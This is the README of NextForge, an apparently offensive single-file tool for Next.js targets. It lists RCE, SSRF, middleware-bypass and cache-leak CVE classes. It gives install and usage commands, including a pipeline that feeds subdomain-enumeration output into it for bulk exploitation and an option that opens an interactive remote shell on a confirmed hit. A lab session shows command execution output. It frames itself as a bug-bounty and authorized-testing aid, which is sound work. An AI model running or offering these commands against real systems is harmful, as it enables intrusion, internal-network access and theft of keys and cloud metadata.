

<p align="center">
  
</p>

<p align="center">
  <b>NextForge v2.1</b> · unified Next.js field framework<br>
  RCE · SSRF · middleware · WAF matrix · lab shell<br>
  <a href="https://ynsmroztas.github.io">ynsmroztas.github.io</a>
  ·
  <a href="https://x.com/ynsmroztas">x.com/ynsmroztas</a>
</p>

---

## What this is

NextForge is a single-file operator tool for **authorized** Next.js assessments.

It does four jobs in one pass:

1. **Profile** the host — App Router vs Pages Router, middleware headers, Turbopack fingerprints, version string.
2. **Map** which CVE classes are even plausible from that profile. Missing markers stay missing.
3. **Prove** the class when the lab target is actually open: RSC Flight RCE, WebSocket-upgrade SSRF, middleware / prefetch / i18n / Turbopack bypass, Server Action ID harvest, Host-header SSRF, Windows incremental-cache leak, Server Function source disclosure.
4. **Hand you the report block** — curl, evidence file, Intigriti / Bugcrowd snippet. Optional interactive shell on a confirmed RCE or SSRF hit.

This is not a “scan the internet” product. Point it at a host you are allowed to test.

## Coverage

| ID | Class | When it lights up |
|---|---|---|
| CVE-2025-55182 | RSC Server Action RCE (React2Shell) | App Router / Flight / Server Actions |
| CVE-2025-66478 | RSC prototype-pollution RCE | Same Flight surface, second gadget |
| CVE-2025-55183 | Server Function source disclosure | Harvested `Next-Action` IDs |
| CVE-2025-29927 | Middleware authorization bypass | `x-middleware-*` present or Pages Router |
| CVE-2026-44573 | Pages Router i18n middleware bypass | Pages + i18n |
| CVE-2026-44574 | Dynamic route parameter injection bypass | middleware + dynamic segments |
| CVE-2026-44575 | App Router segment-prefetch / `.rsc` bypass | App Router |
| CVE-2026-44578 | WebSocket Upgrade SSRF | Self-hosted Next (not a CDN toy) |
| CVE-2026-45109 | Turbopack auth bypass | Turbopack fingerprint |
| CVE-2026-64642 | Turbopack + single-locale middleware bypass | Turbo + locale middleware |
| CVE-2026-64643 | Unauth Server Function / action-id disclosure | Flight / action manifest |
| CVE-2026-64649 | Server Action Host-header SSRF | Custom server + `--oast` |
| CVE-2026-75604 | Windows incremental-cache traversal → key leak | Windows-hosted Next, `200` + marker |

## Model

```
target URL
    │
    ▼
 detect_nextjs()
    │  X-Powered-By / __next_f / __NEXT_DATA__ / turbopack / middleware headers
    ▼
 probe matrix
    ├─ RCE      Flight multipart + WAF variants (utf-16, junk, chunked, dup CT…)
    ├─ SSRF     raw HTTP/1.1 Upgrade: websocket, request-target = internal URL
    ├─ MW       header / rewrite / prefetch / i18n / turbo techniques
    └─ extras   action IDs · Host SSRF · source leak · Win cache
    ▼
 evidence/ + REPORT SNIPPET + optional shell
```

RCE confirmation is not “status 500”. The Flight gadget execs `id` (or your command), base64-packs stdout into an error `digest`, and NextForge decodes it. A hit looks like:

```
uid=1001(nextjs) gid=65533(nogroup) groups=65533(nogroup)
```

SSRF confirmation is a WebSocket upgrade whose request-target is `http://127.0.0.1/` / IMDS / an internal name, and a body that is **not** the public Next document. If the body looks like nginx / IMDS / cloud metadata, the cloud probes run (Hetzner, AWS, Azure, GCP, DO, Alibaba). `--auto` then walks a short internal list.

Middleware confirmation is a protected route becoming readable without a session — body markers like `dashboard` / `logout` / `api key`, plus the technique that got there.

Windows cache (CVE-2026-75604) confirms only on **HTTP 200 and a real marker** (`encryptionKey`, `server-reference-manifest`, `win.ini`). Encoded-backslash `404` rows are probes, not a leak.

## Install

```bash
git clone https://github.com/ynsmroztas/NextForge.git
cd NextForge
python3 -m pip install -r requirements.txt
```

`requests` is required for RCE and middleware. SSRF still runs on the stdlib socket path if `requests` is missing.

## Usage

```bash
# full matrix, no interactive shell
python3 nextforge.py -u https://lab.example --full

# full matrix + Host-header SSRF callback
python3 nextforge.py -t https://lab.example --full --oast xyz.oastify.com

# confirm + drop into RCE shell when the digest decodes
python3 nextforge.py -t https://lab.example --auto --shell

# pipeline
cat hosts.txt | python3 nextforge.py --pipe --full -o hits.jsonl
subfinder -d lab.example | httpx -silent | python3 nextforge.py --pipe --full
```

| Flag | Meaning |
|---|---|
| `-t` / `-u` | Single target |
| `--pipe` / `-f` | Stdin or file of hosts |
| `--mode auto\|all\|rce\|ssrf\|middleware` | Slice the matrix |
| `--full` | Every exploit + every MW technique. No shell. |
| `--auto` | Full power + shell on a confirmed RCE/SSRF hit |
| `--shell` | Force the interactive prompt after a hit |
| `--oast` | Collaborator / interactsh / oastify host for CVE-2026-64649 |
| `--force` | Probe even when Next.js fingerprints are weak |
| `--threads` | Pipeline workers (default 12) |
| `-o` | `hits.json` or `hits.jsonl` |
| `-q` | Quiet |

Exit codes: `2` high-impact hit, `1` Next.js but no confirm, `0` nothing / single-target miss.

## Lab session (redacted)

Authorized lab host. Vendor hostname, cloud account, and evidence filenames stripped. Class left intact.

```
python3 nextforge.py -t https://lab.nextforge.local/ --mode rce --auto

[>] Profiling https://lab.nextforge.local
  Next.js unknown | App Router | MW=False | Turbo=False
  Potential: CVE-2025-55182, CVE-2025-66478, CVE-2026-44575, CVE-2026-44578

[>] Probing RCE (full WAF matrix)
[>] Probing SSRF (CVE-2026-44578)
[>] Probing middleware / auth bypass matrix (FULL)
[>] Probing 2026-07/08 extras (64643 / 64649 / 75604)
[!] CVE-2026-64649 exploit ready but --oast missing.

████ RCE CONFIRMED — standard ████
  uid=1001(nextjs) gid=65533(nogroup) groups=65533(nogroup)
[+] Evidence saved: evidence/lab.nextforge.local_CVE-2025-55182_rce_standard_[REDACTED].txt

════════════════════════════════════════════════════════════
  GOD SHELL  (RCE)
  https://lab.nextforge.local
  help | exit
════════════════════════════════════════════════════════════
  uid=1001(nextjs) gid=65533(nogroup) groups=65533(nogroup)
  nextforge@rce>
```

Full transcript: [`examples/lab-session.txt`](examples/lab-session.txt)

What that session actually proved:

- Fingerprint: App Router (`__next_f` class), middleware header absent, Turbopack absent.
- RCE class: CVE-2025-55182 / CVE-2025-66478, WAF mode `standard`. Process user `nextjs`.
- 64649 was *ready* (action IDs exist) but not fired — no `--oast`.
- Encoded-backslash cache probes that return `404` are not CVE-2026-75604. Do not paste them into a report as a key leak.

## Report path

On a confirm NextForge writes:

- `evidence/<host>_<cve>_<label>_<ts>.txt`
- a curl box you can replay
- a markdown snippet aimed at Bugcrowd / Intigriti / HackerOne

Copy the snippet. Attach the evidence file. Do not attach this repository as the “PoC” unless the program accepts public tooling.

## Notes from the field

- **Vercel / managed edge** often swallows the WebSocket-upgrade SSRF. 44578 is a self-hosted class.
- **WAF matrix** exists because Flight multipart is brittle: charset games, duplicate `Content-Type`, junk preamble, trailing close-delimiter, chunked body. `standard` hitting first is common on unfiltered labs.
- **`--full` vs `--auto`**: `--full` is the report pass. `--auto` is the operator pass (shell).
- **Pipeline** never opens a shell. It only records JSONL.
- Do not point this at a host you do not own or do not have written permission to test.

## Layout

```
NextForge/
  nextforge.py            operator binary
  requirements.txt
  docs/banner.svg
  examples/lab-session.txt
  LICENSE
```

## Author

Yunus Emre Öztaş · mitsec

- Site: [ynsmroztas.github.io](https://ynsmroztas.github.io)
- X: [x.com/ynsmroztas](https://x.com/ynsmroztas)
- GitHub: [github.com/ynsmroztas](https://github.com/ynsmroztas)
- Mail: m.i.t@mit.tc

Authorized testing only. No warranty.
